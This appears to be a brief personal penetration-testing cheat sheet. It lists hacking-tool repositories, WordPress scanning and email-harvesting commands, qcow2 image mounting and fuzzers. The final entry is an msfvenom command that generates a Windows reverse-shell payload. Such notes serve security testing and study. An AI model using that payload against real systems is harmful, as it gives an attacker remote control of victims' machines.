 # MOTHERS OF ALL
https://github.com/Hack-with-Github/Awesome-Hacking

# Evaluate WordPress
https://github.com/sammanthp007/WordPress-Pentesting-Setup
$ wpscan

#CRAWL
git clone https://github.com/killswitch-GUI/SimplyEmail.git
$ theharvester

# Mount qcow2 files
modprobe nbd
qemu-nbd --connect=/dev/nbd0 /path/to/qcow2file
mount /dev/nbd0p1 mnt

# FUZZER
https://github.com/mirrorer/afl.git
https://github.com/jtpereyda/boofuzz.git # pip install boofuzz

## TRIDACTYL direct Download
https://tridactyl.cmcaine.co.uk/betas/tridactyl-latest.xpi

## Windows reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=eth0 LPORT=8080 EXITFUNC=thread \
-f raw -b "\x00\x09\x0d\x0a\x20\xff" -n 32 > warhead.txt
